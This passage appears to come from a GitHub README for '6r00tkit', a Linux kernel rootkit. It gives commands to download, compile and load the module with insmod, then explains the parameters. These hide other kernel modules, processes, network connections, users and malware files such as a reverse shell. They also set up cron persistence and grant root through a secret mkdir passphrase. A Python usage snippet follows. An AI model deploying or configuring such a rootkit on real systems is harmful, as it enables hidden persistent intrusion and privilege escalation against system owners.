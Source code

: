 ```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
bash compile.sh
```

## Load

### Default parameters

```bash
sudo insmod ./6r00tkit.ko
```

### Custom parameters

```bash
sudo insmod ./6r00tkit.ko modulename="other_rootkit" passphrase="s3cr3t" processsignal=666 rootkitdirectory="/rootkit/directory" rootkitfile="rootkit.ko" persistencedirectory="/persistence/directory" persistencefile="mycron" malwarefiles="1.malware,malware.bin,malware.elf,exploit.py,reverseshell.exe" ipsignal=49395 sourceportsignal=24589 destinationportsignal=5037 hiddenuser="malicious-user"
```

 - The `modulename` parameter can be used to hide and protect another kernel module
 - The `passphrase` parameter can be used to change the passphrase used to get root permissions with `mkdir` syscall
 - The `processsignal` parameter can be used to change the signal to hide process by it's PID and `kill` syscall
 - The `rootkitdirectory` this parameter should be the directory where rootkits (`6r00tkit` and the other rootkit if used) are stored (default is `/root/`)
 - The `rootkitfile` parameter can be used to change the default `6r00tkit` filename
 - The `persistencedirectory` parameter should be the directory where persistence file is stored (default is `/etc/cron.d`)
 - The `persistencefile` parameter should be the persistence filename (default is `6r00tkit`)
 - The `malwarefiles` parameter should be the malwares filenames (default is an array containing only `reverseshell`)
 - The `ipsignal` parameter can be used to change the special `kill` signal which can hide connections with a specific IPv4
 - The `sourceportsignal` parameter can be used to modify the special `kill` signal which can hide connections with a specific source port
 - The `destinationportsignal` parameter can be used to modify the special `kill` signal which can hide connections with a specific destination port
 - The `hiddenuser` to hide a user logged in (now is not complete, hide only in `who` command)

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system
from ipaddress import ip_address
from socket import socket
from ctypes import CDLL

################
# HIDE PROCESS #
################

pid = getpid()
print("PID:", pid)
print("Process found in /proc", "\n".join(x for x in listdir("/proc/") if x.isdigit() and int(x) == pid))
system("ps aux | grep python")
```